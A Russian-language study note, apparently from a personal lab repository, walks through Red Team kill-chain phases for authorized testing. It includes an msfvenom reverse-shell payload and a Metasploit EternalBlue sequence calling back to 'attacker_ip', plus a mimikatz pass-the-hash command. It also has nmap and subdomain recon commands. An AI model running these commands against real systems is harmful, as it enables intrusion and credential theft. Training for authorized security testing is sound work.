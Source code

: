 #  Red Team: Exploit Simulation

## Цель
Изучить базовые техники Red Team для симуляции реальных атак (только в контролируемой среде!).

## Важно
**Все действия выполняются ТОЛЬКО в тестовой среде с явным разрешением!**

## Фазы Red Team операции

### 1. Reconnaissance (Разведка)

#### OSINT (Open Source Intelligence)
- [ ] Сбор информации о цели из открытых источников
- [ ] Поиск email адресов (theHarvester, Hunter.io)
- [ ] Анализ DNS записей
- [ ] Поиск поддоменов

#### Active Reconnaissance
```bash
# Nmap сканирование
nmap -sV -sC -oA scan_results target.com

# Поиск поддоменов
subfinder -d target.com

# DNS enumeration
dig target.com ANY
```

### 2. Weaponization (Вооружение)

- Подготовка эксплойтов
- Создание payload
- Обход антивируса (опционально)

```bash
# Пример: создание payload с msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=attacker_ip LPORT=4444 \
  -f exe -o payload.exe
```

### 3. Delivery (Доставка)

Методы доставки (в тестовой среде):
- Фишинговые письма (симуляция)
- Вредоносные вложения
- Компрометация веб-сайта
- USB Drop Attack (физический доступ)

### 4. Exploitation (Эксплуатация)

#### Пример: Эксплуатация уязвимости SMB (EternalBlue)

```bash
# Metasploit
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
exploit
```

### 5. Persistence (Закрепление)

- [ ] Создание backdoor
- [ ] Добавление в автозагрузку
- [ ] Создание scheduled tasks

### 6. Lateral Movement (Горизонтальное перемещение)

- Pass-the-Hash атаки
- Использование скомпрометированных credentials
- Эксплуатация доверенных отношений

```bash
# Пример: Pass-the-Hash с mimikatz
mimikatz # sekurlsa::pth /user:admin /domain:corp.local /ntlm:hash
```

### 7. Exfiltration (Эксфильтрация)

- Сбор целевых данных
- Шифрование перед отправкой
- Передача через C2 канал

## Инструменты Red Team

| Инструмент | Назначение |
|-----------|-----------|
| Metasploit | Exploitation framework |
| Cobalt Strike | C2 и post-exploitation |
| Empire/Powershell Empire | Post-exploitation |
| BloodHound | Active Directory анализ |
| Mimikatz | Credential dumping |
| Burp Suite | Web app pentesting |

## MITRE ATT&CK Mapping

| Тактика | Техника | ID |
|---------|---------|-----|
| Initial Access | Phishing | T1566 |
| Execution | PowerShell | T1059.001 |
| Persistence | Registry Run Keys | T1547.001 |
| Credential Access | OS Credential Dumping | T1003 |
| Lateral Movement | Remote Services | T1021 |

## Симуляция: Полный killchain

```
1. Разведка: Nmap scan  найдены открытые порты 445, 3389
2. Эксплуатация: EternalBlue exploit  получен meterpreter shell
3. Escalation: mimikatz  извлечены credentials
4. Lateral Movement: psexec  доступ к другим хостам
5. Persistence: создан scheduled task для backdoor
6. Exfiltration: собраны данные, отправлены через C2
```

## Red Team Report Template

```markdown
# Red Team Exercise Report

**Date:** 00.00.2024
**Team:** Artem (solo exercise)
**Target:** Lab Environment

## Executive Summary
[Краткие результаты]

## Scope
- IP Range: 192.168.1.0/24
- Time: 2 weeks
- Rules of Engagement: [...]

## Findings
1. Initial access через EternalBlue
2. Credential dumping successful
3. Lateral movement achieved
4. Data exfiltration simulated

## Recommendations for Blue Team
1. Patch SMBv1
2. Implement EDR
3. Network segmentation
4. Credential rotation policy

## Timeline
[Детальная временная шкала]
```

## Notes
**Здесь записывай наблюдения и команды**

_Помни:_
- Всегда получай письменное разрешение
- Работай только в изолированной среде
- Документируй каждый шаг
- Сообщай о найденных уязвимостях

---
**Дата:** 08.10.2024  
**Среда:** Isolated Lab Environment

